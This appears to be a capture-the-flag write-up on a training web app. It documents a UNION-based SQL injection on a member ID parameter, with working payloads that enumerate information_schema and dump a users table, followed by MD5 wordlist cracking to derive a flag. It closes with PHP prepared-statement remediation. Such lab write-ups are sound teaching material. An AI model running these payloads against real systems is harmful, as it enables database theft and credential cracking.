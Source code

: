 # SQL injection on the member search field in the members page

## Vulnerability Details:

### Affected URL: `http://{IP_ADDR}/index.php?page=member&id=`

### Issue Description:
Entering certain input, such as `union` triggers a SQL error that indicates SQL expressions are treated as intended rather than being escaped or treated as regular strings. This vulnerability allows us to exploit the system and extract data from the database by sending requests through the input field.

### Potential Exploitation:
Since the input field expects an ID number, the corresponding SQL query should resemble:
```sql
SELECT first_name, last_name FROM users WHERE users.user_id = ${input_value}
```
This query prints the first name and last name of the member with the given member ID. Since we don't need the website to display data about any specific member, we can choose the ID `-1`, which is unlikely to match any existing ID.<br />
<br />
To append our request after the original query, we can use the `UNION` operator, and perform an UNION-based SQL injection attempt, which combines the result sets of two or more `SELECT` statements:

```sql
SELECT first_name, last_name FROM users WHERE users.user_id = -1 UNION SELECT XXX FROM XXX
```
This allows us to execute our exploit immediately after the original request.<br />
<br />
We aim to retrieve data from the `information_schema`. In SQL, `information_schema` is a schema providing metadata about database objects. We are particularly interested in the `table_name` and `column_name` columns from `information_schema.columns` to understand the general structure of the database.<br />
<br />
With this in mind, we have:<br />
<br />
INPUT:

```sql
-1 UNION SELECT table_name, column_name FROM information_schema.columns
```

OUTPUT:

```sql
ID: -1 UNION select table_name, column_name FROM information_schema.columns 
First name: users
Surname : Commentaire

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : countersign
```

The result reveals a `users` table and two interesting columns: `Commentaire` and `countersign`. Subsequently, we will send the following request to retrieve these two fields from all users in the database:<br />
<br />
INPUT:

```sql
-1 UNION SELECT commentaire, countersign FROM users
```

OUTPUT:

```sql
ID: -1 union select commentaire, countersign from users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

Since the password appears to be a hash, we need to determine the hash type before obtaining the original string. For this, we will use the hash-identifier tool on Kali Linux:
```sh
user@kali:~$ hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 5ff9d0165b4f92b14994e5c685cdce28

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

Now, it has been determined that the password is likely hashed with `MD5`. We will proceed to generate a word list in `wordlist.txt` and create a script named `md5comparer.sh`. The script will hash each word from the word list using MD5 and compare the generated hashes with the password until a match is found:
```sh
user@kali:~$ ./md5comparer.sh wordlist.txt $(cat pwd.txt)
no match found for: 'quarantedeux'
no match found for: 'quarante-deux'
no match found for: 'quarante_deux'
no match found for: 'Quarante-Deux'
no match found for: 'QuaranteDeux'
no match found for: '42'
no match found for: 'fortytwo'
no match found for: 'forty-two'
no match found for: 'forty_two'
no match found for: 'Forty-Two'
HASHES MATCH FOR: 'FortyTwo'
Found match, exiting...
```
Here, a match is found for `FortyTwo`. Let's recall the discovered instruction:
```
Decrypt this password -> then lower all the char. Sh256 on it and it's good !
```

We will, therefore, convert all the characters to lowercase: `FortyTwo -> fortytwo`

...and hash it with SHA-256:
```sh
user@kali:~$ echo -n "fortytwo" | sha256sum
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5  -
```
Thus, the flag is `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`.

## Immediate Action Required:
Inspecting the HTML code, this line:
```
<a href="index.php">Home</a>
```
reveals that the website is coded in `PHP`.<br />
To avoid SQL injection in PHP, it is recommended to use `prepared statements` with `parameterized queries`. Below are examples demonstrating how to use prepared statements in PHP with MySQL using the `PDO extension`:

```php
// Connect to database
$conn = new PDO("mysql:host=$servername;dbname=$dbname", $username, $password);
$conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

// Example with positional parameters
$userInput = "John";
$stmt = $conn->prepare("SELECT * FROM users WHERE username = ?");
$stmt->execute([$userInput]);
   
// Example with named parameters
$userInput = "John";
$stmt = $conn->prepare("SELECT * FROM users WHERE username = :username");
$stmt->execute(['username' => $userInput]);
```
In both examples, the user input is properly bound to the SQL query using placeholders (`?` for positional parameters or `:username` for named parameters). This way, the input is treated as data, preventing SQL injection attacks.